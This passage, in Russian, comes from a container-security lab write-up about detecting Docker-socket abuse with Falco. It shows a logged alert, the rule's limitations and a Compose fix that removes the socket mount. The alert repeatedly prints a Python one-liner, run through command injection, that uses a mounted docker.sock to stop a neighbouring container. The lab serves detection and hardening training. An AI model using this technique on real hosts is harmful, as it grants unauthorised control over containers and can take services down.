В результате должны быть видны события подключения управляющего контейнера. Для безопасного /_ping в командной строке присутствует GET /_ping, для изменяющего запроса - POST /containers/lab-docker-target/stop?t=1. Оба события относятся к одному классу: процесс получил доступ к управляющему сокету. Факт остановки целевого контейнера дополнительно подтверждается журналом Docker events и исчезновением HTTP-ответа на порту 8090.



<details>
<summary>Развернуть Событие отключения контейнера</summary>

~~~text
{
  "_index": "falco-2026.10.18",
  "_id": "FCEVUKEBYHixhDuTAvlK",
  "_version": 1,
  "_source": {
    "uuid": "72610504-507b-45d4-b5d5-cacd19d80057",
    "output": "17:35:16.535169421: Warning Container connected to Docker Engine Unix socket | evt_type=connect result=SUCCESS socket=ffff8aa55ce5d000->ffff8aa55ce5c800 /run/docker.sock fd_type=u process=python proc_exepath=/usr/local/bin/python3.13 parent=docker-init grandparent=containerd-shim command=python -c import socket;s=socket.socket(1);s.settimeout(2);s.connect(\"/var/run/docker.sock\");r=bytes([13,10]);s.sendall(b\"POST /containers/lab-docker-target/stop?t=1 HTTP/1.0\"+r+r);s.shutdown(1) user=lab user_uid=10001 container_id=5abfd382de7c container_name=lab-docker-socket container_id=5abfd382de7c container_name=lab-docker-socket container_image_repository=container-security-lab/control-center container_image_tag=1.0-vulnerable k8s_pod_name=<NA> k8s_ns_name=<NA>",
    "priority": "Warning",
    "rule": "Container connected to Docker Engine Unix socket",
    "time": "2026-10-18T17:35:16.535169421Z",
    "output_fields": {
      "container_id": "5abfd382de7c",
      "container_image_repository": "container-security-lab/control-center",
      "container_image_tag": "1.0-vulnerable",
      "container_name": "lab-docker-socket",
      "evt_res": "SUCCESS",
      "evt_time": 1792344916535169500,
      "evt_type": "connect",
      "fd_name": "ffff8aa55ce5d000->ffff8aa55ce5c800 /run/docker.sock",
      "fd_typechar": "u",
      "k8s_ns_name": null,
      "k8s_pod_name": null,
      "proc_aname[2]": "containerd-shim",
      "proc_cmdline": "python -c import socket;s=socket.socket(1);s.settimeout(2);s.connect(\"/var/run/docker.sock\");r=bytes([13,10]);s.sendall(b\"POST /containers/lab-docker-target/stop?t=1 HTTP/1.0\"+r+r);s.shutdown(1)",
      "proc_exepath": "/usr/local/bin/python3.13",
      "proc_name": "python",
      "proc_pname": "docker-init",
      "user_name": "lab",
      "user_uid": 10001
    },
    "source": "syscall",
    "tags": [
      "T1609",
      "container",
      "docker_socket",
      "mitre_execution",
      "unix_socket"
    ],
    "hostname": "scrockcontainers",
    "@timestamp": "2026-10-18T17:35:16.535169421Z"
  },
  "fields": {
    "output_fields.container_name.keyword": [
      "lab-docker-socket"
    ],
    "output_fields.proc_name": [
      "python"
    ],
    "output_fields.container_image_tag.keyword": [
      "1.0-vulnerable"
    ],
    "output_fields.evt_res": [
      "SUCCESS"
    ],
    "tags.keyword": [
      "T1609",
      "container",
      "docker_socket",
      "mitre_execution",
      "unix_socket"
    ],
    "output_fields.proc_aname[2]": [
      "containerd-shim"
    ],
    "rule": [
      "Container connected to Docker Engine Unix socket"
    ],
    "output_fields.evt_time": [
      1792344916535169500
    ],
    "uuid.keyword": [
      "72610504-507b-45d4-b5d5-cacd19d80057"
    ],
    "output_fields.proc_pname": [
      "docker-init"
    ],
    "source": [
      "syscall"
    ],
    "output_fields.evt_type.keyword": [
      "connect"
    ],
    "output_fields.proc_exepath": [
      "/usr/local/bin/python3.13"
    ],
    "uuid": [
      "72610504-507b-45d4-b5d5-cacd19d80057"
    ],
    "output_fields.proc_aname[2].keyword": [
      "containerd-shim"
    ],
    "output": [
      "17:35:16.535169421: Warning Container connected to Docker Engine Unix socket | evt_type=connect result=SUCCESS socket=ffff8aa55ce5d000->ffff8aa55ce5c800 /run/docker.sock fd_type=u process=python proc_exepath=/usr/local/bin/python3.13 parent=docker-init grandparent=containerd-shim command=python -c import socket;s=socket.socket(1);s.settimeout(2);s.connect(\"/var/run/docker.sock\");r=bytes([13,10]);s.sendall(b\"POST /containers/lab-docker-target/stop?t=1 HTTP/1.0\"+r+r);s.shutdown(1) user=lab user_uid=10001 container_id=5abfd382de7c container_name=lab-docker-socket container_id=5abfd382de7c container_name=lab-docker-socket container_image_repository=container-security-lab/control-center container_image_tag=1.0-vulnerable k8s_pod_name=<NA> k8s_ns_name=<NA>"
    ],
    "output_fields.proc_exepath.keyword": [
      "/usr/local/bin/python3.13"
    ],
    "output_fields.user_uid.keyword": [
      "10001"
    ],
    "hostname": [
      "scrockcontainers"
    ],
    "output_fields.container_image_repository": [
      "container-security-lab/control-center"
    ],
    "output_fields.container_id.keyword": [
      "5abfd382de7c"
    ],
    "output_fields.container_image_repository.keyword": [
      "container-security-lab/control-center"
    ],
    "output_fields.proc_cmdline": [
      "python -c import socket;s=socket.socket(1);s.settimeout(2);s.connect(\"/var/run/docker.sock\");r=bytes([13,10]);s.sendall(b\"POST /containers/lab-docker-target/stop?t=1 HTTP/1.0\"+r+r);s.shutdown(1)"
    ],
    "output_fields.container_name": [
      "lab-docker-socket"
    ],
    "output_fields.proc_pname.keyword": [
      "docker-init"
    ],
    "source.keyword": [
      "syscall"
    ],
    "output_fields.proc_cmdline.keyword": [
      "python -c import socket;s=socket.socket(1);s.settimeout(2);s.connect(\"/var/run/docker.sock\");r=bytes([13,10]);s.sendall(b\"POST /containers/lab-docker-target/stop?t=1 HTTP/1.0\"+r+r);s.shutdown(1)"
    ],
    "priority.keyword": [
      "Warning"
    ],
    "output_fields.fd_typechar.keyword": [
      "u"
    ],
    "output_fields.fd_typechar": [
      "u"
    ],
    "output_fields.container_image_tag": [
      "1.0-vulnerable"
    ],
    "output_fields.evt_type": [
      "connect"
    ],
    "output_fields.user_uid": [
      "10001"
    ],
    "output.keyword": [
      "17:35:16.535169421: Warning Container connected to Docker Engine Unix socket | evt_type=connect result=SUCCESS socket=ffff8aa55ce5d000->ffff8aa55ce5c800 /run/docker.sock fd_type=u process=python proc_exepath=/usr/local/bin/python3.13 parent=docker-init grandparent=containerd-shim command=python -c import socket;s=socket.socket(1);s.settimeout(2);s.connect(\"/var/run/docker.sock\");r=bytes([13,10]);s.sendall(b\"POST /containers/lab-docker-target/stop?t=1 HTTP/1.0\"+r+r);s.shutdown(1) user=lab user_uid=10001 container_id=5abfd382de7c container_name=lab-docker-socket container_id=5abfd382de7c container_name=lab-docker-socket container_image_repository=container-security-lab/control-center container_image_tag=1.0-vulnerable k8s_pod_name=<NA> k8s_ns_name=<NA>"
    ],
    "priority": [
      "Warning"
    ],
    "output_fields.fd_name": [
      "ffff8aa55ce5d000->ffff8aa55ce5c800 /run/docker.sock"
    ],
    "tags": [
      "T1609",
      "container",
      "docker_socket",
      "mitre_execution",
      "unix_socket"
    ],
    "output_fields.container_id": [
      "5abfd382de7c"
    ],
    "@timestamp": [
      "2026-10-18T17:35:16.535Z"
    ],
    "output_fields.user_name.keyword": [
      "lab"
    ],
    "output_fields.evt_res.keyword": [
      "SUCCESS"
    ],
    "output_fields.fd_name.keyword": [
      "ffff8aa55ce5d000->ffff8aa55ce5c800 /run/docker.sock"
    ],
    "output_fields.user_name": [
      "lab"
    ],
    "time": [
      "2026-10-18T17:35:16.535Z"
    ],
    "hostname.keyword": [
      "scrockcontainers"
    ],
    "output_fields.proc_name.keyword": [
      "python"
    ],
    "rule.keyword": [
      "Container connected to Docker Engine Unix socket"
    ]
  }
}
~~~

</details>

## Ограничения постоянного правила

Правило обнаруживает успешное подключение из конкретного лабораторного контейнера к Unix-сокету с именем docker.sock. Оно не является универсальным детектором всех способов использования Docker API.

- Falco фиксирует системный вызов connect, но не анализирует HTTP-метод внутри потока Unix-сокета. Для определения операции stop, create или exec нужна корреляция с Docker events, audit-журналом Docker либо прокси, который видит HTTP API.
- Условие привязано к имени lab-docker-socket. В промышленной среде имя контейнера может быть динамическим; вместо него следует использовать устойчивые метаданные рабочей нагрузки, образ, label или внешний идентификатор сервиса.
- Фильтр fd.name contains docker.sock опирается на фактическое представление поля в данном ядре и версии Falco. Если драйвер возвращает только пару адресов ffff...->ffff..., такой фильтр пропустит событие. Перед переносом правила нужно проверить реальный JSON-событие на целевом узле.
- Разрешённый агент резервного копирования или оператор автоматизации может легитимно обращаться к Docker Engine. Для таких процессов нужна отдельная модель разрешённых источников, а не безусловное подавление всех событий.
- Доступ к Docker-сокету не равен немедленному чтению /etc/shadow или корневой файловой системы. Он даёт процессу возможность отправлять команды демону, а уже через API можно создать контейнер с опасными параметрами, подключить host path, изменить capabilities или остановить рабочие сервисы.
- В этой практике доказан контроль над соседним контейнером, но не выполнен выход в host namespace и не прочитан ресурс хоста. Поэтому результат классифицируется как доступ к управляющей плоскости контейнеров (T1609), а не автоматически как T1611 Escape to Host.

## Что нужно исправить в конфигурации

Причина импакта — не особая привилегия UID 10001 и не отсутствие cap_drop. Уязвимый сервис получил двусторонний bind mount /var/run/docker.sock и дополнительную группу, которая разрешает открыть сокет. Ограничения read_only, no-new-privileges, seccomp, лимиты памяти и CPU не отменяют полномочия Docker Engine, предоставленные через этот интерфейс.

Минимальная конфигурационная мера — не подключать Docker-сокет к веб-приложению и удалить group_add для его GID. В Compose это означает удалить из control-center следующие фрагменты:

~~~yaml
group_add:
  - "${DOCKER_SOCKET_GID:?Create .env with Docker socket GID first}"
volumes:
  - type: bind
    source: /var/run/docker.sock
    target: /var/run/docker.sock
    read_only: false
    bind:
      propagation: rprivate
~~~

После изменения конфигурации контейнер нужно пересоздать, а не только перезапустить:

~~~bash
sudo docker compose up --detach --force-recreate control-center
sudo docker inspect lab-docker-socket --format '{{json .Mounts}}' | jq
sudo docker exec lab-docker-socket id
~~~

В исправленной конфигурации в Mounts не должно быть /var/run/docker.sock, а в группах пользователя не должно быть GID Docker-сокета. Если приложению действительно требуется автоматизация контейнеров, безопаснее использовать отдельный API-прокси с разрешёнными методами и объектами, rootless-режим либо специализированный оркестратор с минимальными правами. Исправление командной инъекции в самом веб-приложении является отдельной задачей и в эту практику не входит: здесь мы изолируем влияние уже скомпрометированного процесса.

## Итоги практики

В эксперименте последовательно подтверждены следующие факты:

1. Штатный запрос приложения запускает только ping и не обращается к Docker-сокету.
2. Командная инъекция запускает Python-процесс от UID 10001 внутри lab-docker-socket.
3. Falco фиксирует успешный connect к Unix-сокету /run/docker.sock с типом дескриптора u.
4. Через тот же сокет процесс отправляет Docker API-запрос POST /containers/lab-docker-target/stop?t=1.
5. Docker Engine фиксирует kill(signal=15), die(exitCode=143) и stop для lab-docker-target.
6. Целевой HTTP-сервис перестаёт отвечать, что подтверждает реальный импакт независимо от Falco.
7. После docker compose start target-service лаборатория возвращается в исходное состояние.

Постоянное правило отвечает на вопрос о попытке управляющего доступа: «Подключился ли процесс из контейнера к Docker Engine через Unix-сокет?». Для ответа на вопрос о конкретной операции и её последствиях необходима корреляция с Docker events и проверкой состояния управляемого ресурса. Такое разделение делает детект проверяемым: системное событие показывает источник, журнал Engine — действие, а состояние Target Service — результат.
